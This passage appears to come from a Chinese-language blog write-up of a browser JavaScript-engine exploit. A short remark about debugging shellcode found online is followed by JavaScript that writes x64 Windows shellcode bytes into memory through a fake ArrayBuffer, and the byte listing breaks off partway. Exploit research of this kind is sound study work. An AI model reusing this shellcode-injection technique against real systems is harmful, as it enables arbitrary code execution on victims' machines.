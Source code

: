 ![](</assets/images/Pasted image 20220224221352.png>)

毕竟是网上找的 shellcode，先单步调试一遍的，验证安全性。在数组开头加上 0xCC，便于调试。

```javascript
shellcode_zone = new Uint8Array(fake_array_buffer(instruction_ptr, 1024));

shellcode_src = new Uint8Array([0xcc, 0x48, 0x31, 0xFF, 0x48, 0xF7, 0xE7, 0x65, 0x48, 0x8B, 0x58,
  0x60, 0x48, 0x8B, 0x5B, 0x18, 0x48, 0x8B, 0x5B, 0x20, 0x48,
  0x8B, 0x1B, 0x48, 0x8B, 0x1B, 0x48, 0x8B, 0x5B, 0x20, 0x49,
  0x89, 0xD8, 0x8B, 0x5B, 0x3C, 0x4C, 0x01, 0xC3, 0x48, 0x31,
  0xC9, 0x66, 0x81, 0xC1, 0xFF, 0x88, 0x48, 0xC1, 0xE9, 0x08,
  0x8B, 0x14, 0x0B, 0x4C, 0x01, 0xC2, 0x4D, 0x31, 0xD2, 0x44,
  0x8B, 0x52, 0x1C, 0x4D, 0x01, 0xC2, 0x4D, 0x31, 0xDB, 0x44,
  0x8B, 0x5A, 0x20, 0x4D, 0x01, 0xC3, 0x4D, 0x31, 0xE4, 0x44,
  0x8B, 0x62, 0x24, 0x4D, 0x01, 0xC4, 0xEB, 0x32, 0x5B, 0x59,
  0x48, 0x31, 0xC0, 0x48, 0x89, 0xE2, 0x51, 0x48, 0x8B, 0x0C,
  0x24, 0x48, 0x31, 0xFF, 0x41, 0x8B, 0x3C, 0x83, 0x4C, 0x01,
  0xC7, 0x48, 0x89, 0xD6, 0xF3, 0xA6, 0x74, 0x05, 0x48, 0xFF,
  0xC0, 0xEB, 0xE6, 0x59, 0x66, 0x41, 0x8B, 0x04, 0x44, 0x41,
  0x8B, 0x04, 0x82, 0x4C, 0x01, 0xC0, 0x53, 0xC3, 0x48, 0x31,
  0xC9, 0x80, 0xC1, 0x07, 0x48, 0xB8, 0x0F, 0xA8, 0x96, 0x91,
  0xBA, 0x87, 0x9A, 0x9C, 0x48, 0xF7, 0xD0, 0x48, 0xC1, 0xE8,
  0x08, 0x50, 0x51, 0xE8, 0xB0, 0xFF, 0xFF, 0xFF, 0x49, 0x89,
  0xC6, 0x48, 0x31, 0xC9, 0x48, 0xF7, 0xE1, 0x50, 0x48, 0xB8,
```